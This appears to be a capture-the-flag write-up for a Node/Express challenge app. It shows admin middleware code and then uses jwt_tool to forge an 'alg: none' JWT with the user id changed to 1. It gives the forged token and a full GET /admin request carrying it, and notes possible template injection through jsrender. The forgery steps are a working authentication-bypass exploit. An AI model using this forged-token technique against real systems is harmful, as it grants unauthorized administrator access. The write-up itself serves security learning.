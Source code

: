 ```javascript
                    where: { id: user.id, username: "admin" },
                }))
            ) {
                return res
                    .status(403)
                    .send({ message: "You are not an admin" });
            }
        }
    } catch (err) {
        return res.redirect("/login");
    }
    next();
};

module.exports = AdminMiddleware;
```

Use jwt_tool to tamper with [jwt token](https://github.com/ticarpi/jwt_tool)

```python3
jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiaWF0IjoxNjc5MjM5OTU1LCJleHAiOjE2NzkyNDM1NTV9.dJjAYGyWsqK-8k1PKsQRW74ZFgc6tFquC0oCiKFaFb0 -X a
``` 

- Change algo to 'None' to go to the else section of the if statement
```python3
jwt_tool.py eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0.eyJpZCI6MiwiaWF0IjoxNjc5MjM5OTU1LCJleHAiOjE2NzkyNDM1NTV9. -T
``` 
- Change id to 1 
payload: ```eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5MjM5OTU1LCJleHAiOjE2NzkyNDM1NTV9.```

request to get /admin
```
GET /admin HTTP/1.1
Host: XXX
User-Agent: XXX
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5MjM5OTU1LCJleHAiOjE2NzkyNDM1NTV9.
Upgrade-Insecure-Requests: 1
```

The web application uses jsrender so there is a possibility of SSTI
Package.json
```yaml
{
    "name": "didactic-octo-paddle",
    "dependencies": {
        "bcryptjs": "^2.4.3",
        "cookie-parser": "^1.4.6",
        "express": "^4.18.2",
        "jsonwebtoken": "^9.0.0",
        "jsrender": "^1.0.12",
        "nodemon": "^2.0.20",
        "path": "^0.12.7",
        "sequelize": "^6.28.0",
        "sqlite3": "^5.1.4"
    }
}
```
